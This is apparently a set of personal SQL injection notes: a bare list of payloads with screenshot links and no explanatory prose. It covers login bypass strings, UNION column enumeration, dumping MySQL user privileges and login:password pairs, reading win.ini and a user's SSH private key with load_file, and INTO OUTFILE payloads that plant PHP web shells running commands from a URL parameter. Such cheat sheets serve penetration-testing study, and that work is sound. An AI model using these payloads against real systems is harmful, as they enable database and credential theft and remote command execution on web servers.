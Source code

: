 ```
'+OR+1=1--
```

![](Pasted%20image%2020231003144222.png)

```
'--+
```

![](Pasted%20image%2020231003144626.png)

![](Pasted%20image%2020231003144723.png)

## SQL injection UNION attacks

## Determining the number of columns required

```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
etc.
```

```
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 
etc.
```

```
union select 1,2,3,4,5,6,7,8,9,10,11,12 --
```

```
group_concat(file_priv,0x3a,user) from mysql.user
```

```
group_concat(version())
```

```
load_file('C:\\Windows\\win.ini')
```

```
into outfile 'C:\\xampp\\htdocs\\filename.ext'
```

```
'<?php phpinfo(); ?>' into outfile 'C:\\xampp\\htdocs\\try.php'
```

```
<?php if(isset($_REQUEST['cmd'])){echo "<pre>";$cmd = ($_REQUEST['cmd']);system($cmd);echo "</pre>";die;}?>
```

```
<?php system($_GET["cmd"]);?>
```

```
load_file('C:\\Users\\username\\.ssh\\id_rsa')
```

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE
"/var/www/html/tmp/webshell.php" -- //
```

```
https://vulnerable.site/vulnerable.php?id=-1%20union%20select%201,group_concat(login,%27:%27,password),3,4%20from%20users
```

